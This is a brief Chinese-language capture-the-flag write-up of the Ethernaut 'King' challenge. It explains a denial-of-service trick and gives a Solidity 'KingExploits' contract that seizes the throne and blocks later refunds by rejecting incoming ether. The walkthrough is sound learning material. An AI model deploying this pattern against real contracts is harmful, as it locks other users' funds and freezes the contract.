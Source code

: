 Level10 - King

这个题的目的成为国王并且不能被人”替换掉“，成为国王很简单，只要向contract.address发送contract.prize个ether就可以成为国王，但是别人同样也可以这样操作，如果不想被”赶下台“需要让transfer失败，也就无法执行下面的操作，这个可以通过合约实现，让合约地址成为国王，并且不定义fallback方法（或定义fallback payable方法，该方法直接throw）。

```js
pragma solidity ^0.4.24;

contract King {
  address public king;
  uint public prize;
  function() external payable;
}

contract KingExploits {
    address owner;

    constructor (address _c) payable public {
        owner = msg.sender;
        King c = King(_c);
        require(address(c).call.value(c.prize())());
    }

    function terminator() public {
        selfdestruct(owner);
    }

    /* 
    function() public payable {
        revert();
    }
    */
}
```

> 在合约被销毁之前就可以永远霸占王位了，但是一旦合约销毁，合约地址可以接受ether，退回的ether确永远无法取回了。

参考：

[Ethernaut King Problem](https://medium.com/coinmonks/ethernaut-king-problem-2ccec1ee4190)
[](_)